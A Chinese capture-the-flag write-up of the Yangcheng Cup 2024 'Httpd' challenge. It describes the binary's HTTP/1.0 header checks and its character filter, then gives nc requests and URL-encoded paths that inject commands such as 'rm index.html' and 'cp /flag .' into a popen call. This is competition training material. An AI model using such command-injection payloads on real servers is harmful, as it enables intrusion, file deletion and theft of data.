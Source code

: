 ```yaml
---
title: 羊城杯2024 - Httpd
date: 2024/10/20 20:32:00
updated: 2024/10/27 23:31:00
tags:
    - shell jail
    - httpd
excerpt: 通过验证HTTP/1.0协议和请求头，利用路径遍历和`popen`函数，从靶机复制flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

考了逆向，也不怎么需要利用

程序首先检验了是否是HTTP/1.0协议以及请求头是否是先Host和再Content-Length并且Length是否小于10000
（导致用不了curl），随后会对RES过滤`/ bin sh $ ; |`等符号与路径穿越，然后尝试`popen($RES)`
（关闭了输出流，因此无法打印内容），再尝试打印RES（若是文件），
若RES是路径先附加"index.html"尝试打印，若html文件不存在则列出文件内容。

经尝试，当前目录下没有flag，从根目录下面复制一个打印就可以

重复执行`nc 139.155.126.78 31426 < req`与靶机交互

```plaintext
GET $(RES) HTTP/1.0
Host: 139.155.126.78:31426
Content-Length: 100
```

依次尝试以下`$(RES)`

```plaintext
/check/
/rm%20index.html
/./
/cp%20/flag%20.
/flag
```

{% note default fa-flag %}
<img src="/assets/yangcheng2024/httpdFlag.png" height="60%" width="60%">
{% endnote %}

